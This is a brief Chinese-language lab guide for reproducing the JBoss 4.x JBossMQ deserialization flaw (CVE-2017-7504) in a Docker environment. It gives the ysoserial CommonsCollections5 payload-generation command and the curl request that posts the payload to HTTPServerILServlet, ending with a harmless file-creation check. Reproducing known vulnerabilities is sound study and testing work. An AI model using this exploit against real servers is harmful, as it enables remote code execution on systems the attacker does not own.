 # JBoss 4.x JBossMQ JMS 反序列化漏洞（CVE-2017-7504）

Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

参考：

- https://github.com/joaomatosf/JavaDeserH2HC
- https://www.youtube.com/watch?v=jVMr4eeJ2Po

## 漏洞环境

执行如下命令启动JBoss AS 4.0.5：

```
docker-compose up -d
```

环境启动后，目标为`http://your-ip:8080`。

## 漏洞复现

该漏洞出现在`/jbossmq-httpil/HTTPServerILServlet`请求中，我们借助ysoserial的eCommonsCollections5利用链来复现。生成Payload：

```
java -jar ysoserial-master-30099844c6-1.jar CommonsCollections5 "touch /tmp/success" > 1.ser
```

我们将1.ser文件内容作为POST Body发送：

```
curl http://your-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @1.ser
```

![](1.png)

执行`docker-compose exec jboss bash`进入容器，可见`/tmp/success`已成功创建。